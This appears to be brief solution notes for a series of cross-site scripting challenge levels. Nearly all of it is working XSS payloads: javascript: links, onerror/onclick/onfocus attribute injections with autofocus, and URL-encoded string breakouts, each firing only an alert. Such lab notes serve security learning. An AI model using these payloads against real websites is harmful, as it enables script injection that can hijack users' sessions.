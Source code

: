 # XSS: 0

```js
<a href="javascript:alert('0xfff')">try</a>
<a href="" onclick="alert('0xfff')">try</a>
<img src=/ onerror="alert('0xfff')">
```

# XSS: 1

- xss 1 is same as 0,

# XSS: 2

- escaping the string uising +

```js
"%2Balert('0xfff')%2B";
```

# XSS: 3

```js

" onerror='javascript:alert("0xfff")'  autofocus="
```

# XSS: 4

```js
' onfocus='alert(1)'  autofocus='
```

# XSS: 4 Google

```js
')%3balert(1)%3bvar x=(''
```
